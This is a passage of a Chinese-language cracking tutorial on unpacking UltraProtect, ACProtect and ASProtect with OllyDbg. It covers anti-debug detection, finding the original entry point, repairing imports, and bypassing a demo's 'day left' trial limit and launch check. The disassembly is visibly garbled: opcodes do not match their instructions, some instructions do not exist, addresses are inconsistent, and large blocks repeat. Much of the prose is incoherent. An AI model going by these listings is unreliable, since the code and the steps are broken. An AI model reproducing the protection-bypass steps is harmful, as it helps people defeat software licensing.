Ptr SS:[ESP+ProcessEntry3]
004B7C39 89 26C000 MOV ECX,X26
004B7C41 88 A57FFF CALL <GetRandWindow>
004B7C46 4B      PUSH
ES:[EDI]--获取窗口句柄后调用 STOR DWORD [EDI]
004B7C47 72 B8F PUSH SHORT
004B7C49 60      POP
004B7C54 58      POP
```

以上代码通过字符串列表获取了当前进程的句柄，通过对句进行字符串过滤，找到了与当前进程版本相同的进程，找到后不再重试。以下列出可能的调试器列表：

```
004B7D34 89 9D140D00 MOV EDX,EDWORD
Ptr SS:[ESP+ProcessEntry32]=the32ProcessID
004B7D39 89 D4C000 MOV EDX,EDWORD
Ptr SS:[ESP+ProcessEntry32]=exeFile--获取进程名
004B7CE0 74 46      JE SHORT 004B7D4
```

```
004B7E28 88 FF CALL EAX
--连接到多进程调试器
004B7E33 80 00 00 CMP BYTE [ESP],0
004B7E34 74 07      JE SHORT 004B7D3D
004B7D38 90      NOP
004B7D39 90      NOP
004B7D3A 90      NOP
004B7D3B 90      NOP
004B7D3C 46      INC EDI,ESI
004B7D3D 73 E3 F4 JMP SHORT 004B7D37
004B7D3E 83 3C 0C SUB ESI,0
004B7D3F 69 D0 STOR DWORD [EDI],
```

--连接到多进程调试器

```
004B7D48 8B DB MOV EBX,EAX
004B7D4A 85 ED D2D3A400 LEA ESI,EDWORD
Ptr SS:[ESP+ProcessEntry32]=exeFile--获取进程名
004B7D50 8B 01 XOR EAX,EAX
004B7D51 8B C0 OR EAX,EAX
004B7D53 74 14      JE SHORT 004B7D47
004B7D55 90      NOP
004B7D56 90      NOP
004B7D57 90      NOP
004B7D58 90      NOP
004B7D59 83 71 CMP EAX,EBX--是否调试器
004B7D5C 74 24      JE SHORT 004B7D47
```

为了判断是否调试，这里有三种方法：

```
004B7D5E 03 00 ADD EAX,0
004B7D60 29 74 SUB EAX,DWORD
Ptr SS:[ESP+ProcessEntry32]=handle
004B7D64 89 F3 --获取第一个句柄
004B7D68 8B DB MOV EBX,EAX
```

获取第一个句柄

```
004B7D69 90      NOP
004B7D70 90      NOP
004B7D71 90      NOP
004B7D72 90      NOP
004B7D73 90      NOP
004B7D74 90      NOP
004B7D4F 90      NOP
004B7D50 90      NOP
004B7D51 90      NOP
004B7D52 90      NOP
004B7D53 90      NOP
004B7D54 90      NOP
004B7D5F 90      NOP
004B7D60 90      NOP
004B7D61 8B ED 55 JMP LP,ProcessEntry32
004B7D62 95 91D4C000 MOV ECX,X26
004B7D64 85 A5      TEST EAX,EAX
004B7D65 88 E6 MOV EBX,EDWORD
004B7D66 8B 46 06 MOV EAX,EWORD
004B7D67 60      PUSH
004B7D68 88 46 00 MOV EAX,EWORD
004B7D69 60      PUSH
004B7D6A 00      PUSH
004B7D6B 71 85 89520400 PUSH DWORD
004B7D6C 72 B8 STOR DWORD [EDI]
004B7D6D 60      PUSH
004B7D6E 00      PUSH
004B7D6F 71 85 69000400 CALL DWORD
004B7D70 72 B8 STOR DWORD [EDI]
```

在UltraProtect下，进程将被挂到调试器上，从而调试。方法二：通过一个返回值来判断调试器，如果返回值不为0说明被调试。方法三：使用`IsDebuggerPresent`

```
004B7D71 55 58      PUSH EAX,POP
004B7D72 88 E6 MOV EBX,EAX
004B7D73 83 CC 24 ADD ESP,4
004B7D74 78 81 F700000 MOV EAX,0A671F8
004B7D75 88 FF PUSH EBX,PUSH EAX
004B7D76 A1 71 F70000 MOV EAX,0A671F8
004B7D77 88 9D MOV EBX,EDWORD
004B7D78 78 1B FFFFFF EDI,EWORD
004B7D79 88 46 MOV ECX,EDWORD
004B7D7A 74 08      JE SHORT 004B7D82
004B7D7B 89 94 ED MOV [ESP],EAX
004B7D7C 81 F7 F700000 XOR EAX,0A671F8
004B7D7D 88 9D MOV EBX,EDWORD
004B7D7E 88 46 MOV ECX,EDWORD
```

UltraProtect在运行时有几种方法用来反调试，例如：使用特定的系统API函数，可以使用`IsDebuggerPresent`来检测。其中一个入口点为：008B730，调试器地址为：GVA:0000913C，Size为：0000607，该函数的返回结果如下：

```
kernel32.dll+000091B0!NtGlobalFlag(debug) (debug=IsDebuggerPresent)
kernel32.dll+000091B8!NtGlobalFlag(debug) (debug2=IsDebuggerPresent)
kernel32.dll+000091C0!NtGlobalFlag(debug) (debug3=IsDebuggerPresent)
kernel32.dll+000091C8!NtGlobalFlag(debug) (debug4=IsDebuggerPresent)
kernel32.dll+000091D0!NtGlobalFlag(debug) (debug5=IsDebuggerPresent)
kernel32.dll+000091D8!NtGlobalFlag(debug) (debug6=IsDebuggerPresent)
kernel32.dll+000091E0!NtGlobalFlag(debug) (debug7=IsDebuggerPresent)
kernel32.dll+000091E8!NtGlobalFlag(debug) (debug8=IsDebuggerPresent)
kernel32.dll+000091F0!NtGlobalFlag(debug) (debug9=IsDebuggerPresent)
kernel32.dll+000091F8!NtGlobalFlag(debug) (debug10=IsDebuggerPresent)
kernel32.dll+00009200!NtGlobalFlag(debug) (debug11=IsDebuggerPresent)
kernel32.dll+00009208!NtGlobalFlag(debug) (debug12=IsDebuggerPresent)
kernel32.dll+00009210!NtGlobalFlag(debug) (debug13=IsDebuggerPresent)
kernel32.dll+00009218!NtGlobalFlag(debug) (debug14=IsDebuggerPresent)
kernel32.dll+00009220!NtGlobalFlag(debug) (debug15=IsDebuggerPresent)
kernel32.dll+00009228!NtGlobalFlag(debug) (debug16=IsDebuggerPresent)
kernel32.dll+00009230!NtGlobalFlag(debug) (debug17=IsDebuggerPresent)
```

## SECRET OF CRACKER

至此大多数函数已经成功破解、并Show Window。将这些函数重名为`MessageBox`、单字节Dump已经初步破解了ACProtect的保护。如果你要再次保护并运行，就需要跳过，这部分结束本文范围，不需要后续。

## ACProtect方法

ACProtect的各种外壳方法与UltraProtect相比并没有区别，都是基于动态加密。ACProtect的加密过程需要将代码还原为正常运行。使用原始的方法可以还原文件，但是ACProtect指向的函数有特殊的特征，为了绕过它，这种方法对于我们来说只是一个ACProtect的入口。通过修改入口将其跳转到程序的很多处，不同的思路，将我们的ACProtect特征跳转到ACProtect函数中，使用原始的函数，使用UltraProtect v1版本开始，这里说明简易的方法。使用`UltraProtect.exe`，首先将参数设置为0，按Alt+F9跳过外部函数。

```
00009163 63 88 F9 9090 MOV BYTE PTR [EBP-4]
00009168 53 54 0D PUSH EAX
00009169 90      NOP
0000916A 90      NOP
0000916B 90      NOP
0000916C 90      NOP
00009170 68 05 66 00 00 PUSH 00006605
00009175 53 D8 PUSH EBP
00009177 8B EC 89 E5 MOV EBP,EAX
0000917B 89 7C 24 MOV [EBP-4],EAX
0000917F 55             PUSH EBP
00407A30 50 00 00 PUSH EAX;  UltraProtect.exe
00407A35 B3 04 00  XOR EAX,EAX
00407A39 75 0A      JZ 00A4ED
00407A3D 81 75 24 01 CMP [EBP-4],1
00407A41 74 08       JNE 0040750
00407A45 55             PUSH EBP;PUSHBP
00407A47 89 7C 24 MOV [EBP-4],EAX
00407A4B 83 C5 0D 00  ADD ESP,000D
00407A4F 75 05       JMP 0040754
00407A54 83 C5 5D  SUB ESP,5D;PUSH
00407A59 89 7C 24 MOV [EBP-4],EAX
00407A5D 8B 44 24 00 MOV EAX,[EBP-4]
00407A61 31 34 08 00  XOR DWORD PTR
00407A65 E5 CD       CALL RDX
00407A69 8B 41 04  MOV EAX,[ECX]
00407A6D 89 7C 24 MOV [EBP-4],EAX
00407A71 75 F9       JNZ 00407B60
00407A75 55             PUSH EBP;PUSHBP
00407A77 89 7C 24 MOV [EBP-4],EAX
00407A7B 83 C5 09  ADD ESP,0009
00407A7F 75 05       JMP 00407A86
```

找到程序主函数，在代码中找到对应的跳转指令，找到方向，将其跳转到OEP（Original Entry Point）即可！

```
00407A80 50 00 00 PUSH EAX;  UltraProtect.exe
00407A85 B3 04 00  XOR EAX,EAX
```


00407A89 75 0A      JZ 00A4ED
00407A8D 81 75 24 01 CMP [EBP-4],1
00407A91 74 08       JNE 0040750
00407A95 55             PUSH EBP;PUSHBP
00407A97 89 7C 24 MOV [EBP-4],EAX
00407A9B 83 C5 0D 00  ADD ESP,000D
00407A9F 75 05       JMP 00407A86

```
00407AA4 83 C5 5D  SUB ESP,5D;PUSH
00407AA9 89 7C 24 MOV [EBP-4],EAX
00407AE 8B 44 24 00 MOV EAX,[EBP-4]
00407B22 31 34 08 00  XOR DWORD PTR
00407B25 E5 CD       CALL RDX
```

```
00407B94 8B 41 04  MOV EAX,[ECX]
00407BBD 89 7C 24 MOV [EBP-4],EAX
00407C11 75 F9       JNZ 00407B60
00407C15 55             PUSH EBP;PUSHBP
00407C17 89 7C 24 MOV [EBP-4],EAX
00407C1B 83 C5 09  ADD ESP,0009
00407C1F 75 05       JMP 00407A86
```

注意：`ACProtect`加密了`ACProtect`的大部分函数，在使用`Dump`时是不可能运行的。事实上`ACProtect`的Stolen Code特征是：一般入口处会有几个调用函数，找到`OEP`的入口后即可。

```
00407900 79 2F 65 25 00 PUSH 0000652F
0040790A 89 D8 MOV EAX,EAX
0040790E 8B EC MOV EBP,EAX
00407912 89 74 24 MOV [EBP-4],EAX
00407916 68 6B 66 00 00 PUSH 0000666B
0040791C 54 D5       MOV DWORD PTR
0040791F 53             PUSH EBP
```

这里就是被`ACProtect`保护的几个调用函数（`kernel32`,`user32.dll`等）。在`Dump`时，导入导出表中的这些地址是正确的，我们的工具用来修复这些地址。首先运行`ACProtect.exe`，点击刷新之后，最后提取这些函数并修复到它们的地方。

```
00407923 53 08       PUSH EAX
00407925 55             PUSH EBP
00407926 89 E5 MOV EBP,EAX
00407929 89 7C 24 MOV [EBP-4],EAX
0040792D 53 54 67 00 00 00 PUSH 00000057
00407933 53 08       PUSH EAX
00407935 55             PUSH EBP
00407936 89 E5 MOV EBP,EAX
00407939 89 7C 24 MOV [EBP-4],EAX
```

这里就是我们遇到了`ACProtect`的动态函数了。其中，`ACProtect`使用一个参数来调用或导入API的地址使用原始的，然后点击自动AC、`GetImports`之后，就可以提取这些函数了。

```
00407943 C3 00       RET
00407945 55             PUSH EBP
00407946 89 E5 MOV EBP,EAX
```

注意：`OEP`的`DWORD PTR`是`[5C2E0]`。

```
0040794A 50 00 00 PUSH EAX
00407952 55             PUSH EBP
00407953 89 E5 MOV EBP,EAX
00407956 89 7C 24 MOV [EBP-4],EAX
0040795A 81 75 24 01 CMP [EBP-4],1
0040795E 74 08       JNE 0040750
00407962 55             PUSH EBP;PUSHBP
00407964 89 7C 24 MOV [EBP-4],EAX
00407968 83 C5 0D 00  ADD ESP,000D
0040796C 75 05       JMP 00407A72
```

在数据中找到一个跳转指令，跳转到`OEP`的地址即可。

```
00407972 83 C5 5D  SUB ESP,5D;PUSH
00407977 89 7C 24 MOV [EBP-4],EAX
0040797B 8B 44 24 00 MOV EAX,[EBP-4]
0040797F 31 34 08 00  XOR DWORD PTR
00407983 E5 CD       CALL RDX
```

```
00407987 8B 41 04  MOV EAX,[ECX]
0040798B 89 7C 24 MOV [EBP-4],EAX
0040798F 75 F9       JNZ 00407B60
00407993 55             PUSH EBP;PUSHBP
00407995 89 7C 24 MOV [EBP-4],EAX
00407999 83 C5 09  ADD ESP,0009
0040799D 75 05       JMP 00407A86
```

www.cracker.com

# SECRET OF CRACK

`Dump`, 得到`FFFFFFFF`,如果参数1不等于`FFFFFFFF`调用`GetProcAddress`,如果参数2为`D4350`地址得到一个值调用`GetProcAddress`,无所谓，这段代码的返回值为`GetProcAddress`的返回值，它可能也是调试的调用`GetProcAddress`了。

这次的汇编代码如下：

```
000014A 68 00 00 00 00
000014F E8      CALL 00003518
JMP 00001503 PUSH 4CE8,kernel32.dll的地址==我们一个值
FF 75 0D PUSH 00000000
DB [EAX+44] PTR
0000144 E8      CALL GetProcAddress
0000139 59      CMP EAX, EAX
000013B      POP EAX
000013D C3      RET
```

我们现在检查`4CE8`的地址，如果返回的参数是个数为1，我们就返回一个值，否则返回一个任何有效的值或错误码，如此返回就是调用`GetVersion`的操作系统版本。

这是另一个有意思的代码了：

```
000013A8 55      PUSH EAX
000013A9 89      MOV EAX, ESP
000013AE 8B 4C 24 00  MOVD [EAX+44], PTR DS[46]=DWORD
000013B7 8B      MOV EAX, EAX
000013B9 8B 4C 24 08  MOVD [EAX+48], PTR
000013BE 8B      MOV EAX, EAX
000013C0 8B 4C 24 0C  MOVD [EAX+52], PTR
000013C5 8B      MOV EAX, EAX
000013C7 8B 4C 24 10  MOVD [EAX+56], PTR
000013CC 8B      MOV EAX, EAX
000013D1 8B 4C 24 14  MOVD [EAX+60], PTR
000013D6 8B      MOV EAX, EAX
000013D8 8B 4C 24 18  MOVD [EAX+64], PTR
000013DE 8B      MOV EAX, EAX
000013E0 8B 4C 24 1C  MOVD [EAX+68], PTR
000013E5 8B      MOV EAX, EAX
000013E7 8B 4C 24 20  MOVD [EAX+72], PTR
000013EC 8B      MOV EAX, EAX
000013EF 8B 4C 24 24  MOVD [EAX+76], PTR
000013F4 8B      MOV EAX, EAX
000013F6 8B 4C 24 28  MOVD [EAX+80], PTR
000013FB 8B      MOV EAX, EAX
00001400 8B 4C 24 2C  MOVD [EAX+84], PTR
00001405 8B      MOV EAX, EAX
00001407 8B 4C 24 30  MOVD [EAX+88], PTR
0000140C 8B      MOV EAX, EAX
0000140E 8B 4C 24 34  MOVD [EAX+92], PTR
00001413 8B      MOV EAX, EAX
00001415 8B 4C 24 38  MOVD [EAX+96], PTR
0000141A 8B      MOV EAX, EAX
0000141C 8B 4C 24 3C  MOVD [EAX+100], PTR
00001421 8B      MOV EAX, EAX
00001423 8B 4C 24 40  MOVD [EAX+104], PTR
00001428 8B      MOV EAX, EAX
0000142A 8B 4C 24 44  MOVD [EAX+108], PTR
0000142F 8B      MOV EAX, EAX
00001431 8B 4C 24 48  MOVD [EAX+112], PTR
00001436 8B      MOV EAX, EAX
00001438 8B 4C 24 4C  MOVD [EAX+116], PTR
0000143D 8B      MOV EAX, EAX
0000143F 8B 4C 24 50  MOVD [EAX+120], PTR
00001444 8B      MOV EAX, EAX
00001446 8B 4C 24 54  MOVD [EAX+124], PTR
0000144B 55      PUSH ESP
0000144D 5D      POP EDI
00001450 C3      RET
00001451 55      PUSH EAX
```

---

这段代码看起来是入栈，然后从栈返回的地址，我们直接调用`LoadResource`。如果这个返回值有效，那么返回的就是指向一个指针，否则返回`NULL`。

我们再次调用`ShowVal`，它的返回值已经修改了，返回的是`kernel32.dll`地址已经识别了。最后用`Dump`，我们找到了这个文件`ImportLib.exe`，一个文件只不过为了编译日期变更了。作者发现这个系统里有了文件结束了，结束了，分析也够了，我们开始清理病毒的限制了。

# 如何解决时间

动手之后，我们现在观察一下删除后的 第60页。如果你还心的话，就会发现现在的上还是文字的文件，它显示的就是“xx left”，而在删除后的文件显示的数字day left，这就说明了差异，我们现在进入了另一个函数。最后，我们切入到时间

另一个函数进入了：

```
00000400 > 00 JMP short reg.exe>00004010
00000402 66      CALL :EAX
00000406 82      CALL :EAX
0000040A BA      CALL :EAX
0000040D 83 4C 24 03  ADD [EAX+3],0
MOV :EAX
00000416 2B      CALL :EAX
00000419 2B      CALL :EAX
0000041C 2B      CALL :EAX
00000420 8B 4C 24 00  MOVD [EAX+0], PTR
00000425 8B      MOV EAX, EAX
00000427 8B 4C 24 04  MOVD [EAX+4], PTR
0000042C 8B      MOV EAX, EAX
0000042E 8B 4C 24 08  MOVD [EAX+8], PTR
00000433 8B      MOV EAX, EAX
00000435 8B 4C 24 0C  MOVD [EAX+12], PTR
0000043A 8B      MOV EAX, EAX
0000043C 8B 4C 24 10  MOVD [EAX+16], PTR
00000441 8B      MOV EAX, EAX
00000443 8B 4C 24 14  MOVD [EAX+20], PTR
00000448 8B      MOV EAX, EAX
0000044A 8B 4C 24 18  MOVD [EAX+24], PTR
0000044F 8B      MOV EAX, EAX
00000451 8B 4C 24 1C  MOVD [EAX+28], PTR
00000456 8B      MOV EAX, EAX
00000458 8B 4C 24 20  MOVD [EAX+32], PTR
0000045D 8B      MOV EAX, EAX
0000045F 8B 4C 24 24  MOVD [EAX+36], PTR
00000464 8B      MOV EAX, EAX
00000466 8B 4C 24 28  MOVD [EAX+40], PTR
0000046B 8B      MOV EAX, EAX
0000046D 8B 4C 24 2C  MOVD [EAX+44], PTR
00000472 8B      MOV EAX, EAX
00000474 8B 4C 24 30  MOVD [EAX+48], PTR
00000479 8B      MOV EAX, EAX
0000047B 8B 4C 24 34  MOVD [EAX+52], PTR
00000480 8B      MOV EAX, EAX
00000482 8B 4C 24 38  MOVD [EAX+56], PTR
00000487 8B      MOV EAX, EAX
00000489 8B 4C 24 3C  MOVD [EAX+60], PTR
0000048E 8B      MOV EAX, EAX
00000490 8B 4C 24 40  MOVD [EAX+64], PTR
00000495 8B      MOV EAX, EAX
00000497 8B 4C 24 44  MOVD [EAX+68], PTR
0000049C 8B      MOV EAX, EAX
0000049E 8B 4C 24 48  MOVD [EAX+72], PTR
000004A3 8B      MOV EAX, EAX
000004A5 8B 4C 24 4C  MOVD [EAX+76], PTR
000004AB 8B      MOV EAX, EAX
000004AD 8B 4C 24 50  MOVD [EAX+80], PTR
000004B2 8B      MOV EAX, EAX
000004B4 8B 4C 24 54  MOVD [EAX+84], PTR
000004B9 8B      MOV EAX, EAX
000004BB 8B 4C 24 58  MOVD [EAX+88], PTR
000004C0 8B      MOV EAX, EAX
000004C2 8B 4C 24 5C  MOVD [EAX+92], PTR
000004C7 8B      MOV EAX, EAX
000004C9 8B 4C 24 60  MOVD [EAX+96], PTR
000004CE 8B      MOV EAX, EAX
000004D0 8B 4C 24 64  MOVD [EAX+100], PTR
000004D5 8B      MOV EAX, EAX
000004D7 8B 4C 24 68  MOVD [EAX+104], PTR
000004DC 8B      MOV EAX, EAX
000004DE 8B 4C 24 70  MOVD [EAX+108], PTR
000004E3 8B      MOV EAX, EAX
000004E5 8B 4C 24 74  MOVD [EAX+112], PTR
```

`OlDbg`加载后发现文件`_reg.exe`，入口地址如下

```
00000400 > 00 JMP short reg.exe>00004010
00000402 66      CALL :EAX
00000406 82      CALL :EAX
0000040A BA      CALL :EAX
0000040D 83 4C 24 03  ADD [EAX+3],0
MOV :EAX
00000416 2B      CALL :EAX
00000419 2B      CALL :EAX
0000041C 2B      CALL :EAX
00000420 8B 4C 24 00  MOVD [EAX+0], PTR
00000425 8B      MOV EAX, EAX
00000427 8B 4C 24 04  MOVD [EAX+4], PTR
0000042C 8B      MOV EAX, EAX
```


```text
0000042E 8B 4C 24 08  MOVD [EAX+8], PTR
00000433 8B      MOV EAX, EAX
00000435 8B 4C 24 0C  MOVD [EAX+12], PTR
0000043A 8B      MOV EAX, EAX
0000043C 8B 4C 24 10  MOVD [EAX+16], PTR
00000441 8B      MOV EAX, EAX
00000443 8B 4C 24 14  MOVD [EAX+20], PTR
00000448 8B      MOV EAX, EAX
0000044A 8B 4C 24 18  MOVD [EAX+24], PTR
0000044F 8B      MOV EAX, EAX
00000451 8B 4C 24 1C  MOVD [EAX+28], PTR
00000456 8B      MOV EAX, EAX
00000458 8B 4C 24 20  MOVD [EAX+32], PTR
0000045D 8B      MOV EAX, EAX
0000045F 8B 4C 24 24  MOVD [EAX+36], PTR
00000464 8B      MOV EAX, EAX
00000466 8B 4C 24 28  MOVD [EAX+40], PTR
0000046B 8B      MOV EAX, EAX
0000046D 8B 4C 24 2C  MOVD [EAX+44], PTR
00000472 8B      MOV EAX, EAX
00000474 8B 4C 24 30  MOVD [EAX+48], PTR
00000479 8B      MOV EAX, EAX
0000047B 8B 4C 24 34  MOVD [EAX+52], PTR
00000480 8B      MOV EAX, EAX
00000482 8B 4C 24 38  MOVD [EAX+56], PTR
00000487 8B      MOV EAX, EAX
00000489 8B 4C 24 3C  MOVD [EAX+60], PTR
0000048E 8B      MOV EAX, EAX
00000490 8B 4C 24 40  MOVD [EAX+64], PTR
00000495 8B      MOV EAX, EAX
00000497 8B 4C 24 44  MOVD [EAX+68], PTR
0000049C 8B      MOV EAX, EAX
0000049E 8B 4C 24 48  MOVD [EAX+72], PTR
000004A3 8B      MOV EAX, EAX
000004A5 8B 4C 24 4C  MOVD [EAX+76], PTR
000004AB 8B      MOV EAX, EAX
000004AD 8B 4C 24 50  MOVD [EAX+80], PTR
000004B2 8B      MOV EAX, EAX
000004B4 8B 4C 24 54  MOVD [EAX+84], PTR
000004B9 8B      MOV EAX, EAX
000004BB 8B 4C 24 58  MOVD [EAX+88], PTR
000004C0 8B      MOV EAX, EAX
000004C2 8B 4C 24 5C  MOVD [EAX+92], PTR
000004C7 8B      MOV EAX, EAX
000004C9 8B 4C 24 60  MOVD [EAX+96], PTR
000004CE 8B      MOV EAX, EAX
000004D0 8B 4C 24 64  MOVD [EAX+100], PTR
000004D5 8B      MOV EAX, EAX
000004D7 8B 4C 24 68  MOVD [EAX+104], PTR
000004DC 8B      MOV EAX, EAX
000004DE 8B 4C 24 70  MOVD [EAX+108], PTR
000004E3 8B      MOV EAX, EAX
000004E5 8B 4C 24 74  MOVD [EAX+112], PTR
```

在两个地方之后：

```text
00000487: 67 74 05  MOV WORD PTR PTR
[ESP-34, 4] |
0000048B: 67 74 04  MOV WORD PTR PTR
00000490: 83 4C 24 03  ADD [EAX+3],0
00000495: 89      MOV EAX, EAX
--> 调用参数返回值
00000497: 85      TEST EAX, EAX
0000049A: 74      STOS, EAX
0000049C: 33      XOR EAX, EAX
```

## SECRET OF CRACK

```text
004108E: ER 475A000 CALL REG_00460D2D
004108B: 8D 37 A0 CALL DWR PTR_03D
--[EBC-4C1]保存寄存器传值
004108EA: 7E 11 JLE REG_0041096A
--保存寄存器传值
-->F9, 跳到此处执行 x22 "day left"
004108EC: 6C 75 3C 30 MOV WORD PTR_03D
--[EBC-34, 38]
004108F2: 33 02 XOR EAX, EAX
004108F5: 89 75 A4 MOV DWORD PTR_03D
--[EBC-CD, EX]
004108FD: 8D 74 LE, REG PTR_03D
00410904: F7 88 IN EDX, PTR PTR[ESP-28]
0041090D: 89 84 A4 MOV EDX, PTR_03D
--[EBC-4C,00]
00410914: 3E A055A00 CALL REG_00457308
-->保存寄存器传值
-->跳转到寄存器传值
0041091E: 8D 74 LE, REG PTR_03D
00410918: 51 PUSH EAX
00410919: BA 25B4A00 MOV EDX, DX
0041092A: A5 * "day left"--跳转到“这里"
0041092C: 8B E4 LE EAX, LE PTR_03D
--[EBC-10]
00410931: A8 E3A3A00 CALL REG
0041093C: 09 CC -->保存寄存器传值
00410936: F7 88 IN EDX, PTR PTR[ESP-28]
00410939: 33 C0 XOR EAX, EAX
0041093A: 89 84 E5 MOV DWORD PTR_03D
--[EBC-14, EX]
00410941: 6C 75 3C 30 MOV WORD PTR_03D
00410946: 33 C9 XOR EAX, EAX
00410947: 88 E955A500 CALL REG_00457308
0041096A: 6C 75 3C 30 MOV WORD PTR_03D
0041096F: 33 C9 XOR EAX, EAX
00410970: 89 84 E8 MOV DWORD PTR_03D
--[EBC-34, 44]
00410975: 8D E8 LE EAX, LE PTR_03D
00410978: 51 PUSH EAX
00410979: BA 30B4A00 MOV EDX, DX
0041098A: A5 * "day left"--跳转到“这里"
0041098C: 8B E4 LE EAX, LE PTR_03D
--[EBC-1C]
0041098D: 88 E283C0A0 CALL REG
-->保存寄存器传值
00410994: 89 BC IN DWORD PTR[ESP-28]
```

激活了开始按钮，最好我们我们可以引导 `Reg.exe` 是如何加载游戏插件了。注意这里我们使用插件器加载游戏时的 `config.exe`，修改其为 `FullScreen` 以显示在单调试模式运行，方便我们进行调试。这是一个技巧，在游戏中运行 `Reg.exe`。在 `004108E` 处按下 `F9`，程序停在以下地址：

```text
004108EC: 6C 75 3C 30 MOV WORD PTR_03D
```

在以下地址：


点击开始按钮后，我们发现它同时在进度条中显示 256，如图所示。按下开始按钮，游戏插件加载成功，限制就变成了。然后我们就可以一步找到这个隐藏的按钮。在 Windows 下，我们可以通过运行另一个进程，分别使用了三个 API：`CreateProcess`、`ShellExecute`、`WinCreate`。第一种方法如下：

```text
CreateProcess(
    LPCSTR lpName, // 获取执行文件的句柄
    LPSECURITY_ATTRIBUTES lpAttributes, // 设置属性
    LPSECURITY_ATTRIBUTES ProcessAttributes, // 修改属性
    BOOL bInherit, // 继承句柄
    DWORD CreationFlags, // 创建标志
    LPVOID lpEnvironment, // 指向环境变量
    LPSTART lpThread, // 接收新创建主线程的句柄
    LPSTARTUPINFO StartInfo, // 设置启动信息
    LPPROCESS_INFORMATION ProcessInformation // 接收进程信息
)
```

我们重新加载 `Reg.exe`，在调试中修改代码拦截游戏插件，然后按下 `F9` 启动游戏，看着发生了什么？上述参数的含义，我们在 `004108EA` 处强制停止按钮，这样是可以调试的。直接修改参数是不妥的，我们通常采用比较笨的方法来引起它的意思。

## SECRET OF CRACK

```text
0123F58: 0000000 (FileName:Ball)
0123F5C: 0000000 (Call To CreateProcess) 游戏会调用
0123F60: 0DD2A4E (CommandLine:F:\Ball\BallAttack.exe)
0123F64: 0000000 --start，这里是参数运行的
0123F68: 0000000 (pProcessInformation)
0123F6C: 0000000 (InheritHandle:TRUE)
0123F70: 0000000 (CreationFlags)
0123F74: 0000000 (lpThread)
0123F78: 0000000 (nCurrent:NULL)
0123F7C: 0DD2A4E (pStartupInfo:NULL)
0123F80: 0000000 (lpEnvironment:NULL)
```

`BallAttack.exe`可以通过调试拦截吗？打开上面的 `BallAttack`，“目标”栏输入 `F:\BallAttack.exe --start`，这里是参数运行的。程序会在调试时直接进入主程序吗？我们尝试在调试程序时发现了一个办法，由于在调试程序中拦截了一个错误，调试就会让程序功能继续运行。对于任何用户，我们没有对执行文件的任何修改，也没有用任何参数来调试，稍后修改一下调试的命令行参数就可以被拦截了，这确实是整个破解失败的一个办法。

对于这种拦截，我们只要这样做就行，现在我们只能尝试破解这一个 `Demo` 版本了，其他的函数会在封装之中。在下一节里，我们将详细介绍如何破解限制，大家可以如何破解 ASProtect 不是直接拦截 `Reg.exe` 原来是用 `start` 来启动主程序的，这不是意思我们尝试破解这些游戏。适合初学者爱好者尝试用 `OlDbg` 来调试软件。

## 软件加密教程

### 兼容ASProtect破解技术 / Redoc

上节我们破解 ASProtect 的壳已经了解了，这次我们继续破解它的限制功能。

### 破解限制功能

如图所示，开启限制功能以后，我们仍然能在 `Demo` 中运行，点击 FIRST、SECOND、DEBUG 后游戏会弹出“NOT AVAILABLE IN REGISTERED VERSION”。点击弹窗后，我们就可以在主页上方点一下，我们发现他们没有发布文件（File Extensions: `*.cpp`）。这说明我们破解的包在 `CPP` 目录下……找到 `1.cpp`、`2.cpp`、`3.cpp` 这四个文件……找到我们的 `1.cpp` 是我们的突破口了。

来说，破解这个已注册的 ASProtect 比操作技巧要复杂一些。首先，使用了 SDK 对核心功能部分进行带有跳转的代码，这已经修改了正在运行的程序内部，这时就要特别注意代码跳转的地方，例如在一点，发现跳转改变后，我们再继续破解壳，可以这样操作后就破解成功了。

尝试破解我们保存的 `BallAttack.exe`，在修复以后，记得加上 `--start` 作为命令行的参数，尝试运行调试，看看它没有被拦截，程序是否启动。查看它在我们的保护下是否运行正常，这并不是我们想要的结果，我们继续破解的办法是启动两个程序后拦截 `Debug/Arguments` 方法。


```text
00400160: EB7A44CC ::BallAttack.
00400168: 83302CA4A50 CMD PTR (45A2C,0);
0040016F: 7506 JZ BallAttack.060167
00400175: FF153A4450 CALL DWORD PTR:[45A2C34];
```

图1 www.hacker.com 2007 破解

## SECRET OF CRACK

```text
00401627: 66C7A500 MOV PTR [EBP-20,0]
0040162D: 0805 JMP dbAll:0040163A
0040162F: 66C97D MOV PTR [EBP-20,10]
0040163A: F8EAF50 CALL dbAll:0450689
```

离开后你会发现这一段：

```text
00422B80: 8000 MOV EDX, PTR [EAX]
00422B85: 0805 JMP dbAll:0042BFC
00422B87: 31FA5 MOV EDX, rdbAll
00422B94: 667498 MOV PTR DSS
00422B98: 83F0 CMP PTR DSS [45FE0,0]
00422B9D: 7725 JMP dbAll:0042BF94
00422BA0: 0FB2 XOR EAX, PTR
00422BA2: 83F9 CMP EAX, 60
00422BA5: 717A JMP dbAll:0042BF6A
00422BA8: 0FB2 XOR EAX, PTR
00422CBA: 8365 CMP EAX, 
00422CE9: 7509 JMP dbAll:0042BF5A
00422CEB: 0F03 MOV EAX, PTR
00422CF0: 8366 CMP EAX, 
00422D03: 33C0 XOR EAX, ESI
00422D07: 0805 JMP dbAll:0042BF3C
00422D09: 8B00 MOV EAX, I
00422D0E: 8580 MOV EDX, PTR DSS
00422D13: 8400 TEST EAX, ALL
00422D17: 89A1 MOV BYTE PTR DSS
```

执行 `00401621` 调用了 `00401654`，在返回这里使用 `00401655`，修改函数的后果是这样的：我们可以修改 `0045A34` 地址，在执行 `00401621` 时直接跳转到这里，跳过了那个函数后就会运行起来；当我们回到这里时，程序运行正常，功能可能还没有问题。经过调试之后，通过测试我们发现返回值中存在问题：

1. 增加一些有名的函数，如下所示：


图2

2. “第一次运行结束后，调试不会进入一次。”

在修改参数后学习如何控制程序的执行在 `004012D9` 中（为了保证程序运行，我们已经在这里传递了参数，可能会影响到函数的返回值）修改 `dbCreate` 来传递参数，这里就会显示出 `Demo` 的返回值了：

```text
-11:1C9B8: 55D4 CALL to CreateFreeFrom
rdbAll:004033A6
0021F92A: 6500 PUSH [dbName=0]
0021F930: 6A00 MOV EAX,GENERIC_READ
0021F93E: 5000 PUSH NULL
0021F944: 6AFF MODE OPEN_EXISTING
0021F94A: 6A00 PUSH NULL
0021F950: 6500 PUSH dbName
```

设置断点，按下 `F9` 继续调试程序，看到两个变量符合预期的返回值后，就可以调试：

```text
082AA6A: 45E4 CALL dbAll
082AA6F: 897C2F MOV PTR DSS [EBP-74]
082AA74: 69FF LE EAX, PTR DSS
082AA79: 45F4 MOV EDX, 2
```


观察下表，通过控制变量的读取和写入：

| 目标 | 标记 | 含义 |
